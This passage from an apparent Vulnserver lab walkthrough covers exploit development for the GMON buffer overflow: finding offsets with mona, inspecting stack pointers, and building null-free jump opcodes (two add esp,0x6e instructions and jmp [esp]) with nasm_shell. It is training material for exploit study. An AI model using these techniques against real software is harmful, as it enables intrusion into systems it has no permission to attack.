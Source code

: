 ```c
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 offset-stack.py
```

After the first step of short jump, you will find lots of instructions like this used to create the pattern

Lets check our offsets now,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-mona.png">
</div>

Using ```!mona findmsp``` to locate offsets,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-findmsp.png">
</div>

Looks like we have two pointers pointing us towards ths buffer data in stack, which is matached by the pattern

Analysing the hexdump of the pointer address, ```esp + 0xdc``` to confirm the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-stackdata.png">
</div>

If we use this pointer, we will be in our buffer data past ```1548 bytes```

Now we should perform a long jump of 1548 bytes from this point (one step past short jump)

Creating opcodes to perform long jump via ```nasm shell```,

```c
nasm > add esp, 0xdc
00000000  81C4DC000000      add esp,0xdc
```

Injecting ```null byte``` inside a shellcode will break the exploit, since it is a ```bad character```

Breaking it into smaller operations,

```c
>>> 0x6e+0x6e
220
>>> hex(0x6e+0x6e)
'0xdc'
```

Since ```0xdc == 0x6e + 0x6e```, we can make our opcodes like this

```
nasm > add esp, 0x6e
00000000  83C46E            add esp,byte +0x6e
nasm > add esp, 0x6e
00000000  83C46E            add esp,byte +0x6e
nasm > jmp [esp]
00000000  FF2424            jmp [esp]
nasm > 
```
